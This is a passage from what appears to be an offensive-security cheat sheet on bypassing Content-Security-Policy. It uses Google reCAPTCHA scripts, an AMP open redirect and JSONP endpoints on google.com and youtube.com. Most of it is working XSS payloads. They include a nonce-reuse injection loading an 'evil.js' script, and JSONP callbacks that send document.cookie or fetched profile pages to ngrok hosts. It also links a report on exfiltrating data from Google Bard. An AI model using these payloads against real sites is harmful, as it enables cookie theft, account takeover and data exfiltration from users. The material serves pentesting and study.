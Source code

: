 More [**payloads from this writeup**](https://joaxcar.com/blog/2024/02/19/csp-bypass-on-portswigger-net-using-google-script-resources/):

```html
<script src="https://www.google.com/recaptcha/about/js/main.min.js"></script>

<!-- Trigger alert -->
<img src="x" ng-on-error="$event.target.ownerDocument.defaultView.alert(1)" />

<!-- Reuse nonce -->
<img
  src="x"
  ng-on-error='
	doc=$event.target.ownerDocument;
	a=doc.defaultView.top.document.querySelector("[nonce]");
	b=doc.createElement("script");
	b.src="//example.com/evil.js";
	b.nonce=a.nonce; doc.body.appendChild(b)' />
```

#### Abusing www.google.com for open redirect

The following URL redirects to example.com (from [here](https://www.landh.tech/blog/20240304-google-hack-50000/)):

```
https://www.google.com/amp/s/example.com/
```

Abusing \*.google.com/script.google.com

It's possible to abuse Google Apps Script to receive information in a page inside script.google.com. Like it's [done in this report](https://embracethered.com/blog/posts/2023/google-bard-data-exfiltration/).

### Third Party Endpoints + JSONP

```http
Content-Security-Policy: script-src 'self' https://www.google.com https://www.youtube.com; object-src 'none';
```

Scenarios like this where `script-src` is set to `self` and a particular domain which is whitelisted can be bypassed using JSONP. JSONP endpoints allow insecure callback methods which allow an attacker to perform XSS, working payload:

```markup
"><script src="https://www.google.com/complete/search?client=chrome&q=hello&callback=alert#1"></script>
"><script src="/api/jsonp?callback=(function(){window.top.location.href=`http://f6a81b32f7f7.ngrok.io/cooookie`%2bdocument.cookie;})();//"></script>
```

```html
https://www.youtube.com/oembed?callback=alert;
<script src="https://www.youtube.com/oembed?url=http://www.youtube.com/watch?v=bDOYN-6gdRE&format=json&callback=fetch(`/profile`).then(function f1(r){return r.text()}).then(function f2(txt){location.href=`https://b520-49-245-33-142.ngrok.io?`+btoa(txt)})"></script>
```
